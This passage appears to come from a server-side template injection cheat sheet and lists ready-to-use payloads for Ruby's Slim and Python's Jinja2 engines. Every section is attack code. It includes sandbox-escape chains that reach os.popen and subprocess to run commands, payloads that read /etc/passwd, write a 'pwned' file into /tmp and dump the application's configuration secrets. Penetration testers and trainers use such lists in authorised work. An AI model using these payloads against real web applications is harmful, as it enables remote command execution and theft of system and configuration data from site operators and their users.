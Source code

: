 #### Slim

Command execution

```ruby
{ %x|id| }
```

### Python

#### Jinja2

Debug statement

```python
<pre>{% debug %}</pre>
```

Dump all used classes

```python
{{ [].class.base.subclasses() }}

{{''.class.mro()[1].subclasses()}}

{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Dump all configuration variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

Read remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}

{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Write into remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/pwned', 'w').write('You have been pwned !') }}
```

Command execution

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

{{ cycler.__init__.__globals__.os.popen('id').read() }}

{{ joiner.__init__.__globals__.os.popen('id').read() }}

{{ namespace.__init__.__globals__.os.popen('id').read() }}

{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}} // 396 may vary

```